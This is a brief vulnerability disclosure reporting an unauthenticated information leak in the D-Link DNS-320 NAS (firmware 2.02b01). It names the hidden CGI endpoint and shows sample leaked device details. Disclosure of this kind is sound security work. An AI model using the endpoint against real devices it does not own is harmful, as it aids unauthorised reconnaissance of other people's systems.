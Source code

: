 # Info Leak in Dlink-DNS320 NAS

## Overview

    * Type: Information leak
    * Supplier: Dlink
    * Victim URL: http://{Device-IP}/cgi-bin/widget_api.cgi?getSys
    * Product: ShareCenter™ 2-Bay Network Storage Enclosure DNS-320
    * Affect version: (lastest) 2.02b01
    * Firmware download: http://files.dlink.com.au/products/DNS-320/REV_A/Firmware/Firmware_v2.02b01/DNS-320_A1_FW_2.02b01.zip
 

## Description

An infomation leaking vulnerability is at the web management interface of the affected NAS devices. Without any permition, attacker can get sensitive information about system from the victim URL.

The victime url is a hidden interface and isn't been protected by any authentication and authorization.

## Business Impact

The leaked information is sensitive and could result in serious damage. Thus the vulnerability is very dangerous which could also result in reputational damage for the business through the impact on customers' trust.

## Steps to Reproduce

Visit the victime URL from the web, such sensitive information as 'hostname', 'IP address', 'firmware version' and some configurations are explosed as below:
'''
<hostname>dlink-94CBD4</hostname><IP>192.168.1.110</IP><tempF>115</tempF><tempC>46</tempC><version>2.02b01</version><HDnum>0</HDnum><model>DNS-320<model><BT>0</BT>
'''

